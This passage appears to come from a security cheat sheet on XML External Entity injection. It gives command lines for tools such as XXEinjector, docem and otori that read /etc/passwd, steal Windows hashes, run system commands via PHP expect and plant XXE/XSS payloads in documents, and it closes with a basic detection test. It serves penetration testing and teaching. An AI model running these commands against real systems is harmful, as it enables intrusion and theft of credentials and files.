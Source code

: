   ```bash
  # Enumerating using direct exploitation:
  ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK
  # Enumerating unfiltered ports:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all
  # Stealing Windows hashes:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --hashes
  # Uploading files using Java jar:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --upload=/tmp/uploadfile.pdf
  # Executing system commands using PHP expect:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter --expect=ls
  # Testing for XSLT injection:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --xslt
  # Log requests only:
  ruby XXEinjector.rb --logger --oob=http --output=/tmp/out.txt
  ```
- [oxml_xxe](https://github.com/BuffaloWill/oxml_xxe) - A tool for embedding XXE/XML exploits into different filetypes (DOCX/XLSX/PPTX, ODT/ODG/ODP/ODS, SVG, XML, PDF, JPG, GIF)
  ```
  ruby server.rb
  ```
- [docem](https://github.com/whitel1st/docem) - Uility to embed XXE and XSS payloads in docx,odt,pptx,etc
  ```
  ./docem.py -s samples/xxe/sample_oxml_xxe_mod0/ -pm xss -pf payloads/xss_all.txt -pt per_document -kt -sx docx
  ./docem.py -s samples/xxe/sample_oxml_xxe_mod1.docx -pm xxe -pf payloads/xxe_special_2.txt -kt -pt per_place
  ./docem.py -s samples/xss_sample_0.odt -pm xss -pf payloads/xss_tiny.txt -pm per_place
  ./docem.py -s samples/xxe/sample_oxml_xxe_mod0/ -pm xss -pf payloads/xss_all.txt -pt per_file -kt -sx docx
  ```
- [otori](http://www.beneaththewaves.net/Software/On_The_Outside_Reaching_In.html) - Toolbox intended to allow useful exploitation of XXE vulnerabilities.
  ```
  python ./otori.py --clone --module "G-XXE-Basic" --singleuri "file:///etc/passwd" --module-options "TEMPLATEFILE" "TARGETURL" "BASE64ENCODE" "DOCTYPE" "XMLTAG" --outputbase "./output-generic-solr" --overwrite --noerrorfiles --noemptyfiles --nowhitespacefiles --noemptydirs 
  ```

## Detect the vulnerability

Basic entity test, when the XML parser parses the external entities the result should contain "John" in `firstName` and "Doe" in `lastName`. Entities are defined inside the `DOCTYPE` element.

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```
